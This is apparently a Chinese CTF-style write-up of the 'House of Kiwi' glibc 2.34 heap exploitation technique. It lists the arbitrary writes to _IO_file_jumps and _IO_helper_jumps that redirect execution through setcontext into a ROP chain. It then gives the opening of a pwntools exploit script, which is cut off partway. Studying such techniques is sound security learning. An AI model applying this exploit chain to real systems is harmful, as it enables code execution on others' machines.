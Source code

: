 至少需要几次任意地址写：

- 一次任意地址写`_IO_file_jumps + 0x60`为`setcontext + 61`
- 一次任意地址写`_IO_helper_jumps + 0xa0`为`rop`链的地址
- 一次任意地址写`_IO_helper_jumps + 0xa8`为`ret`的地址

以及通过任意地址写、堆溢出等方式来修改`top chunk`的`size`来触发`__malloc_assert`

## _IO_FILE结构

无相关结构

## POC

基于`2.34-0ubuntu3_amd64`版本编译`bug_house.c`。`POC`如下：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './kiwi'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug():
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

choice_words = 'Please input your choice>'

menu_add = 1
add_index_words = 'Please input the chunk index>'
add_size_words = 'Please input the size>'
add_content_words = 'Please input the content>'

menu_del = 4
del_index_words = 'Please input the index>'

menu_show = 3
show_index_words = 'Please input the index>'

menu_edit = 5
edit_index_words = 'Please input the chunk index>'
edit_size_words = 'Please input the size>'
edit_content_words = 'Please input the content>'



def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
```